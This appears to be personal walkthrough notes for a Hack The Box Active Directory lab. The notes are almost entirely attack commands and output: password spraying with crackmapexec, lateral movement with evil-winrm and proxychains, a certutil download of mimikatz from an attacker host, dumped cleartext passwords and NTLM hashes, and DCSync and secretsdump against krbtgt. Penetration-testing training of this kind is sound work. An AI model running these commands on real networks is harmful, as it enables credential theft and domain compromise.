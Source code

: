 ### Any AD users can login to 172.16.5.200
Although, it seems useless

```
$crackmapexec smb 172.16.5.0/24 --local-auth -u administrator -p 'Welcome123!' | grep +

SMB         172.16.5.130    445    FILE01           [+] FILE01\administrator:Welcome123! (Pwn3d!)
SMB         172.16.5.200    445    DEV01            [+] DEV01\administrator:Welcome123! (Pwn3d!)
```

### Rabbit Holes
```
evil-winrm -i 172.16.5.5 -u dhawkins -p Bacon1989
xfreerdp /u:dhawkins /p:'Bacon1989' /v:172.16.5.5
```

### SSH is better than RDP
```
ssh htb-studnet@10.129.139.2
```

### Login and dump the hash with mimikatz
```
proxychains evil-winrm -i 172.16.5.130 -u administrator -p Welcome123!
proxychains evil-winrm -i 172.16.5.130 -u asmith -p Welcome1
proxychains evil-winrm -i 172.16.5.130 -u abouldercon -p Welcome1
```
```
certutil -urlcache -f http://172.16.5.225:8000/mimikatz.exe mimikatz.exe
```

```
         * Username : clusteragent
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : 007Agent

                 kerberos :
         * Username : wley
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Cargonet2

         * Username : backupagent
         * Domain   : INLANEFREIGHT
         * NTLM     : 242c18dc94ae4fd51f0544a83f6e593f
         * SHA1     : 5893547f160f54591fa8af2214538c0615b83424
         * DPAPI    : 68b009672717f2f250c32ed96eb74279
```

### clusteragent is enough
```
evil-winrm -i 172.16.5.5 -u clusteragent -p 007Agent    # -> YEAH! d0c_pwN_r3p0rt_reP3at!
```

### mimikatz not working properly with DCSync attack
```
.\mimikatz.exe lsadump::dcsync /user:inlanefreight\krbtgt exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:krbtgt exit
.\mimikatz.exe lsadump::dcsync /user:krbtgt exit
.\mimikatz.exe lsadump::dcsync /user:INLANEFREIGHT\KRBTGT exit
```
Above failed may due to the evil shell not functional enough for mimikatz

### Using secretsdump intead
```
secretsdump.py inlanefreight/clusteragent@172.16.5.5 -just-dc-user inlanefreight/krbtgt
secretsdump.py inlanefreight/clusteragent@172.16.5.5 -just-dc-user inlanefreight/svc_reporting
```
### Then crack hash to login
evil-winrm -i 172.16.5.5 -u svc_reporting -p Reporter1!
proxychains xfreerdp /u:svc_reporting /p:Reporter1! /v:172.16.5.5
proxychains xfreerdp /u:svc_reporting /p:Reporter1! /v:172.16.5.200 # login successfull but meaningless
### net user svc_reporting
It can be used to See Which Groups a Particular User Belongs to